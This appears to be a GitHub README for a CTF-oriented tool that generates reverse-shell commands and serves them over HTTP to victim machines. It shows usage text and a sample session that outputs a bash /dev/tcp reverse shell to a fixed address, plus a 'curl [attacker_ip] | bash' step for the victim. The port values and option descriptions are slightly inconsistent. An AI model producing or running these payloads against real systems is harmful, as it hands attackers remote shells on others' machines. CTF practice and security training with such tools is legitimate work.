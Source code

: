 # C3 - The CTF Command and Control
```
_________ ________
\_   ___ \_____  \
/    \  \/  _(__  <    ______
\     \____/       \  /_____/
 \______  /______  /
        \/       \/
___________.__             _______________________________
\__    ___/|  |__   ____   \_   ___ \__    ___/\_   _____/
  |    |   |  |  \_/ __ \  /    \  \/ |    |    |    __)
  |    |   |   Y  \  ___/  \     \____|    |    |     \
  |____|   |___|  /\___  >  \______  /|____|    \___  /
                \/     \/          \/               \/
                                                .___
  ____  ____   _____   _____ _____    ____    __| _/
_/ ___\/  _ \ /     \ /     \__  \  /    \  / __ |
\  \__(  <_> )  Y Y  \  Y Y  \/ __ \|   |  \/ /_/ |
 \___  >____/|__|_|  /__|_|  (____  /___|  /\____ |
     \/            \/      \/     \/     \/      \/
  ____                         __                .__
 /  _ \     ____  ____   _____/  |________  ____ |  |
 >  _ </\ _/ ___\/  _ \ /    \   __\_  __ \/  _ \|  |
/  <_\ \/ \  \__(  <_> )   |  \  |  |  | \(  <_> )  |__
\_____\ \  \___  >____/|___|  /__|  |__|   \____/|____/

   by Blaudoom
```

This is a VERY simple script that can be used to create your basic reverse-shell commands.

Shells from: [PentestMonkey](https://github.com/pentestmonkey)


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -s HTTPPORT  Port to start HTTP server in, default 80
  ```
## Usage
```
Available commands:

reverse [method] - Creates a reverse shell and either serves it over http or prints it (Method either serve or print)
proxy [url/preset] - Downloads and serves a single webpage over http. Param 1 is an url or a preset name. 
exec [command] - Serves the given command as text on http-server
set [option] [value] - Sets the value for an option, overwriting the one given as a commandline param.
shells - Prints available shell-types
presets - Prints presets
options - Prints options
stop - Kill the http-server
exit - Exit the application
```


## Examples:
### Reverse on http-server
  ```
$ sudo python3 sheller.py -s 80 -l bash -a 169.254.138.91

Options:

shell:bash
localAddr:169.254.138.91
localPort:4444
interface:None
httpPort:80


C3>reverse serve
Opening shellfile: bash
C3>Starting webserver on port 80

C3>127.0.0.1 - - [12/Aug/2021 14:02:07] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [12/Aug/2021 14:02:07] "GET /favicon.ico HTTP/1.1" 200 -
```

produces:

```
bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
```

and serves it on http-server at all interfaces on port 80 at / http://localhost
  
on victim machine:
```
curl [attacker_ip] | bash
```

should run the reverse shell generated, if bash is present and http is not blocked.
